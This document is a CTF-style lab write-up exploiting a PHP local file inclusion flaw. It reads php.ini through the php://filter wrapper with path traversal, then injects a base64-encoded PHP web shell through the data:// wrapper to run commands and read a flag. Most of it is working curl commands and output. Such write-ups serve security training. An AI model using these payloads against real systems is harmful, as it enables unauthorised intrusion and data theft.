


## Exercises

### Question 1 — Try to gain RCE using one of the PHP wrappers and read the flag at /

Landed on the target page and checked Wappalyzer to identify the stack.



Apache confirmed as the web server and PHP as the language — which settles the config path to check for `allow_url_include` as `/etc/php/X.Y/apache2/php.ini`.



Read the PHP configuration file through the LFI, wrapping it in the base64 filter since `.ini` files can break the response unencoded:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl "http://154.57.164.80:36248/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" -s 

<!DOCTYPE html>
<html lang="en">
—SNIP—
            W1BIUF0KCjs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKOyBBYm91dCBwaHAuaW5pICAgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7
—SNIP—
ZXh0ZW5zaW9uPWV4cGVjdAo=            <p class="read-more">
                <a href="#">Read More</a>
            </p>
        </div>
    </div>
—SNIP—
```

**Breakdown:**

- `curl "..."` sends the GET request and prints the raw response
- `index.php?language=` the vulnerable parameter targeted throughout this module
- `php://filter/read=convert.base64-encode/` applies the base64-encode filter while reading the resource — the parameter string's `read=.../resource=...` segments are the filter wrapper's own key=value syntax, not real directory paths
- `resource=../../../../etc/php/7.4/apache2/php.ini` the target file, reached via path traversal and named with its full version-specific path

Copied the base64 blob out of the page and saved it to a file for decoding, since it was long enough to be awkward to paste inline:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nano base64-blob.txt
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat base64-blob.txt | base64 -d | grep allow_url_include

allow_url_include = On
```

**Breakdown:**

- `cat base64-blob.txt` prints the saved base64 blob
- `| base64 -d` decodes it back into the original `php.ini` text
- `| grep allow_url_include` filters the decoded output down to the line containing that setting

With `allow_url_include` confirmed on, built a base64-encoded PHP web shell:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo -n '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+
```

**Breakdown:**

- `echo -n '<?php system($_GET["cmd"]); ?>'` prints the raw PHP web shell with no trailing newline (`-n`), so the encoded payload doesn't carry an extra `\n` into the executed code
- `| base64` pipes that text into the `base64` command, encoding it to the string shown

URL-encoded the base64 string (the `+` becomes `%2B`) and sent it to the `data` wrapper, testing with `id` first:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl 'http://154.57.164.80:36248/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&cmd=id' -s | grep uid

            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Breakdown:**

- `language=data://text/plain;base64,...` invokes the data wrapper, declaring the payload as base64-encoded plain text, and supplies the encoded web shell
- `&cmd=id` the parameter the injected web shell reads, passing the `id` command to run
- `-s` runs curl silently, suppressing progress output
- `| grep uid` filters the HTML response down to the line containing the command's output

RCE confirmed. Re-ran the same request grepping with context, to see where in the page the command output lands before relying on that position for later extraction:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl 'http://154.57.164.80:36248/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&cmd=id' -s | grep uid -C 5                       

            </ul>
        </div>
        <div class="description">
            <h1>History</h1>
            <h2>Containers</h2>
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
            <p class="read-more">
                <a href="#">Read More</a>
            </p>
        </div>
    </div>
```

**Breakdown:**

- `-C 5` shows 5 lines of context before and after each match, revealing that command output always lands right after the `<h2>Containers</h2>` line

Searched the filesystem root for the flag, URL-encoding the command (`ls /` → `ls%20%2F`):

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl 'http://154.57.164.80:36248/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&cmd=ls%20%2F' -s | grep .txt

            37809e2f8952f06139011994726d9ef1.txt
```

Read the flag file (`cat /37809e2f8952f06139011994726d9ef1.txt` → URL-encoded as `cat%20%2F37809e2f8952f06139011994726d9ef1.txt`), grepping around the known `Containers` heading established above:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl 'http://154.57.164.80:36248/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&cmd=cat%20%2F37809e2f8952f06139011994726d9ef1.txt' -s | grep Containers -A 2

            <h2>Containers</h2>
            —REDACTED—
            <p class="read-more">
```

**Answer:** `—REDACTED—`